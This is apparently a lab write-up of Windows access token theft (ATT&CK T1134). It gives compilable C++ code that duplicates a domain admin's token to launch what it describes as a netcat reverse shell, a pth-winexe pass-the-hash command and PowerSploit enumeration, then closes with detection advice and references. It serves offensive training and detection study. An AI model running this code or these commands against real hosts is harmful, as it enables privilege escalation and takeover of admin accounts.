




# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is creating a new process with a "stolen" token. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved, then duplicated and then used for creating a new process making the process run in the context of the stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:


Note the line 16, which specifies the executable that should be launched with an impersonted token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:



This is the code if you want to compile and try it yourself:



```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```



Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:


The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do is test a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine via:



```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```



which created a new process on the victim system with a PID of 4780:


Enumerating all the access tokens on the victim system with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected is 3 \(a network logon\):



This token again can be stolen the same way. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to 4780 \(it has the access token we want to steal\):


Running the compiled code invokes a new process with the newly stolen token:


note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:


## Observations

Imagine you were investigating the host \(we stole tokens from\) because it exhibited some anomalous behaviour, in this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:



As suggested by the above, you should think about API monitoring if you want to detect these manipulations on endpoints. Additionally, Windows event logs of IDs `4672` and `4674` may be helpful - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:





{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly\#-security-primary-token-gly\",\"type\":\"link\",\"title\":\"P\",\"description\":\"Contains definitions of security terms that begin with the letter P.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396\",\"type\":\"link\",\"title\":\"How Access Tokens Work\",\"icon\":{\"type\":\"icon\",\"url\":\"https://technet.microsoft.com/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens\",\"type\":\"link\",\"title\":\"Access Tokens\",\"description\":\"An access token is an object that describes the security context of a process or thread.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/\",\"type\":\"link\",\"title\":\"PowerShell and Token Impersonation\",\"description\":\"This post will discuss bringing incognito-like functionality to PowerShell in the form of a new PowerShell script \(Invoke-TokenManipulation\), with some important differences. I’ll split this post u…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://clymb3r.files.wordpress.com/2013/11/screen-shot-2013-11-03-at-10-07-42-pm.png?w=300\",\"width\":300,\"height\":187,\"aspectRatio\":0.6233333333333333}}" %}



{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw\",\"type\":\"link\",\"title\":\"CreateProcessWithTokenW function\",\"description\":\"Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}



{% embed data="{\"url\":\"https://www.youtube.com/watch?v=Ed\_2BKn3QR8\",\"type\":\"video\",\"title\":\"Basics of Windows Security\",\"description\":\"This video looks at all the basic parts that form the security model in Windows. Check out http://itfreetraining.com for more of our always free training videos. Understanding this will give you a better understanding of how security works in Windows allowing you to better configure and secure Windows.\\n\\nDownload the PDF handout http://ITFreeTraining.com/handouts/server/basics-security.pdf\\n\\nWhat\'s in this video\\nThis video will look at the core parts of Windows security which are as follows: \\\"Security Principal\\\", \\\"Security Identifier\\\", \\\"Access Control Entry/Access Control List\\\" and \\\"Access Tokens\\\". This will give you a better understanding of how security in Windows works which will assist you later on when you work on configuring security.\\n\\nWhat is a Security Principal\\nA security principal is essentially the name given to an entity. For example a user, computer or process. This security principal is generally a friendly name to make it easier to identify the entity. For example, it is easier to identify a user by a name rather than a long number. A security principal will always map to one entity, but it is possible to have to entities with the same name. For example two users with the same name. Perhaps one has been deleted and replaced by the other. In order for an entity to always be able to be uniquely identified, it needs a unique value assigned to it.\\n\\nSecurity Identifier \(SID\)\\nEvery object in Windows has a SID assigned to it. A SID is a unique number like a serial number. They always start with S. The short SID\'s are local SID\'s and are only used on the local computer. The longer SID\'s are domain SID\'s and are issued by a Domain Controller.\\nThe list of profiles currently in use can be found in Regedit at the following location HKEY\_LOCAL\_MACHINE\\\\SOFTWARE\\\\Microsoft\\\\Windows NT\\\\CurrentVersion\\\\ProfileList\\nThe containers in this location are called after the SID of that user. This means that if the username of that user were to change, this would not affect Windows being able to find the profile for that user as the SID for that user has not changed.\\n\\nSID Example\\nWhenever a user is created, a unique SID is assigned to them. This SID is then used with objects to give the user access. Since a unique SID is assigned to every user that is created, it is possible to have multiple users with the same SID at different times or in different domains. It should be remembered that once a user is deleted the SID associated with that user is lost. For this reason, many administrators will disable a user rather than deleting them and thus keeping the SID. If later on the access that was given to that user is required, the user can be re-enabled and the access reused.\\n\\nACE/ACL\\nIn order to determine who can access an entity, ACE\'s and ACL\'s are used. An ACL or Access Control List is a list of permissions. For example who can read the entity, those that can write to the entity. An ACE or Access Control Entry is simply an entry in that list. For example, if you had a document on the file system, this document would have an Access Control List associated with it. This Access Control List would contain Access Control Entries which determine who has access. For example, it is common for files to be allowed access by administrators and the system user. If additional access is required, it is just a matter of adding an ACE to the ACL with the required permissions and the entity that requires access. The access is determined by using the entities SID. Thus to determine if someone is allowed access, the SID of that user is looked at and then checked against the ACL to see if there is a match. If there is a match the user is allowed access.\\n\\nDescription to long for YouTube. Please see the following link for the rest of the description.\\nhttp://itfreetraining.com/server/\#basics-security\\n\\nSee http://YouTube.com/ITFreeTraining or http://itfreetraining.com for our always free training videos. This is only one video from the many free courses available on YouTube.\\n\\nReferences\\n\\\"Installing and Configuring Windows Server 2012 Exam Ref 70-410\\\" pg 83\\n\\\"Principal \(computer security\)\\\" http://en.wikipedia.org/wiki/Principa...\)\\n\\\"Security Identifier\\\" http://en.wikipedia.org/wiki/Security...\\n\\\"Access Control Entries\\\" http://msdn.microsoft.com/en-us/libra...\\n\\\"Access Tokens\\\" http://msdn.microsoft.com/en-us/libra...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/Ed\_2BKn3QR8/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/Ed\_2BKn3QR8?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/Ed\_2BKn3QR8?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

